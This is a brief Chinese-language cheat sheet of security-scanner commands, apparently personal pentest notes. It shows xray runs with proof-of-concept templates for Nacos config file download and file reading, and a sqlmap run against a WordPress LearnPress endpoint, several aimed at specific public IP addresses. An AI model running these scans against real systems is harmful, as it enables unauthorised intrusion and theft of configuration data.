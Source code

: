 
  
### 1、指定poc扫描
```shell
xray webscan  --poc ./nacos/nacosConfigFileDownload.yml --url 101.35.219.198:8848 --html-output  hhhhh.html

xray.exe webscan  --poc ./poc/weidezhishichanquan/weideFileRead.yml --url 182.92.185.96 --html-output 1.html

xray webscan  --poc ./poc/nacos/nacosConfigFileDownload.yml --url-file target.txt --html-output  hhhhh.html

python sqlmap.py -url http://72.10.167.139/wp-json/learnpress/v1/courses?c_only_fields=*
```

### 2、rad+xray
```

```
### 3、nuclei
https://xdym11235.com/archives/38.html#%E8%BF%90%E8%A1%8Cnuclei

```
screen -S my_scan
screen -r my_scan
```
